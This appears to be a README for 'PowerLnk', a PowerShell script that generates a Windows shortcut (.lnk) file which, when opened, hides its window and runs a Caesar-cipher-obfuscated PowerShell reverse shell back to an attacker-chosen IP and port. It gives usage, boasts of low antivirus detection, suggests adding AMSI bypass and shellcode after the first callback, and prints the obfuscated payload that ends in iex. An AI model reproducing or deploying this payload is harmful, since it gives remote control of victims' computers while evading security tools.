 # PowerLnk
generates a .Lnk file that executes a reverse shell in powershell using a caesar cipher as obfuscation, starts minimized then quickly hides the window

# Useage
script takes two parameters -ip and -port where ip and port is the device you are listening on

./PowerLnk.ps1 -ip '192.168.1.5' -port 443

# Current detection

scored a 4/62 on virustotal, intended for second stagers to be executed after initial callback due to including more to the lnk increases detections, so amsi, shellcode etc should be run after inital callback. I'll leave that up to yall to implement that for whatever engagement you're doing.


I'm working on a python server side console for c2


code executed will look something like ```[text.encoding]::ascii.getstring([type].([string]::new([char[]](('ewwiqfp}'|fhx).Bytes|%{$_-4}))).([string]::new([char[]](('kixx}ti'|fhx).B
ytes|%{$_-4})))(([string]::new([char[]](('W}wxiq2Gsrzivx'|fhx).Bytes|%{$_-4}))))::([string]::new([char[]](('jvsqfewi:8wxvmrk'|fhx).Bytes|%{$
_-4})))(([string]::new([char[]](('NLk=OI9ph}5T]qtp]7UkfqZ4PrRz]6xphLQyhKR{]6|t^[94OGM|SXMyQX]8PnIyQn]mPHU4Q}otPqhphLR4gqZlfWktS5xmi\Vp[55hNK
M=QG8yRnY5Q~Z<N\w{jXx7eKpw^WksNKo=NLkygqZl^Gko]m{{PGVmPo|pfqh4eGotP[9pMHEti}VoTWlfg7p~hKZxPrVpiLUy^[9nf6VtfqhhSntr^\VpfqRz^Kpy^}k}QHI}R}otPq
hphKN9hKZ~OGkse[Z8OGlS^\gxX6Nu^[R4MG54MLVpiLUy]\Rne[ppfqRz^Kpy^}oy^6Z4g7V}e[9rOGVmPHEwNKotOXM/NnJ<f7Z4P\R4gqpy^}ovOLF7^GoygKJ4eGwmTmEmOWo;NL
kyh7NthKYsNKUwQG{o^G9Q^[9rhKktS}V8Pq^wh\RsOGp='|fhx).Bytes|%{$_-4})))))|i`ex```
